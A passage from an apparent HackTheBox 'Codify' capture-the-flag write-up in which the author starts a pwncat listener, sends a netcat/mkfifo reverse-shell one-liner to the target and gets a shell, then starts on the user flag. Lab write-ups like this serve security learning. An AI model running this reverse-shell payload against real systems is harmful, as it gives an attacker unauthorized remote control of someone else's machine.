 ![RCE](/images/htb/easy/codify/rce.png)

Success, now lets setup a reverse shell.

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host 10.10.***.*** 4444 -m linux
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

I go to [revshells.com](https://revshells.com) to craft a payload to send to the server, using my HTB private IP and port 4444.

I use the following payload: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.***.*** 4444 >/tmp/f`

and I get a shell!

```
[16:42:21] 10.10.11.239:51968: registered new host w/ db                               
           listener: 10.10.***.***:4444: linux session from 10.10.11.239:51968            
           established
```

## Initial Access & User Flag

Inside the home directory there is another folder, `joshua`, which we cannot access.
